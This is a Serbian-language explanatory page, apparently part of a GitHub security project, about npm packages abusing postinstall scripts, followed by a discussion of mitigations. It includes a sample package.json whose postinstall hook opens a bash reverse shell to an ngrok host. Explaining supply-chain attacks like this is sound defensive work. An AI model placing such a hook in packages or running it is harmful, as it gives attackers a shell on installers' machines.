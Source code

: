 ![Slika1](/Dijagrami/NodeJsMongo/NpmPackageInstallatinActionOrder.jpg)


#### Opis napada
U mnogim repozitorijumima paketi su opremljeni rutinama koje dozvoljavaju bootsrapping. Skripte ubačene u ovakve bootsrap mehanizme, u najvećem broju slučajeva, se pokreću nakon instalacije paketa. Kao rezultat toga, napad može da bude izvršen a da paket nikada nije bio pokrenut, niti importovan od strane žrtve. Čak i kada te skripte nisu eksplicitno dizajnirane da proizvedu štetu, njihovo ponašanje može i dalje biti neželjeno od strane developera. Pomenute skripte se pokreću sa istim dozvolama kao i korisnik koji ih je pokrenuo, što dodatno pogoršava čitavu situaciju ako je korisnik ujedno i administrator.

Iako shell skripte nude znatnu fleksibilnost kod konfigurisanja paketa, takođe omogućavaju malicioznim paketima da ozbiljno naštete sistemima na kojim su instalirani. Sledi primer paketa koji u sebi sadrži malicioznu skriptu koja otvara reverse shell ka određenoj destinaciji na internetu.

<pre>
{
  "name": "twilio-npm",
  "version": "1.0.1",
  "description": "",
  "main": "index.js",
  "scripts": {
  "test": "echo \"Error: no test specified\" && exit 1",
  <span style="color:red"><b>"postinstall": "bash -i >& /dev/tcp/4.tcp.ngrok.io/11425
  0>&1"</b></span>
  },
  "author": "",
  "license": "ISC”
}
</pre>

#### Mitigacije
Novije verzije npm-a sadrže određene mitigacije za ovakve napade. Međutim, one često ne zadovoljavaju potrebe ni osoba koje rade na održavanju registra npm paketa, ni developera, jer ili kvare funkcionalnost paketa (na primer npm može biti iskonfigurisan da skroz ignoriše skripte prilikom instalacije, a koje mogu biti neophodne za rad paketa), ili stvaraju veliki teret na održavaoce registra (na primer nud npm audit opciju, koja prikazuje ručno označene bezbednosne probleme, a koja bi se morala ručno pokretati).

U domenu bezbednosti repozitorijuma paketa NodeSource nudi usluge za proveravanje npm paketa u formi sertifikovanih modula, tako što označava npm pakete i pridodaje informacije vezane za bezbednost. Cilj je da se omogući korisnicima da donesu informisane odluke vezane za rizike koje nosi instalacija paketa. Pored toga, ovaj servis nudi informacije o tome da li paket izvršava install-time skripte. Međutim, ne prikazuje detalje o tome šta te skripte zapravo rade. Package Analysis [[4]](#reference) je još jedan alat koji proverava open source pakete i eksportuje informacije o njihovom ponašanju. Iako ovaj alat daje uvid o ponašanju install skripti, ne poseduje nikakav mehanizam za presretanje i sprečavanje neželjenog ponašanja.

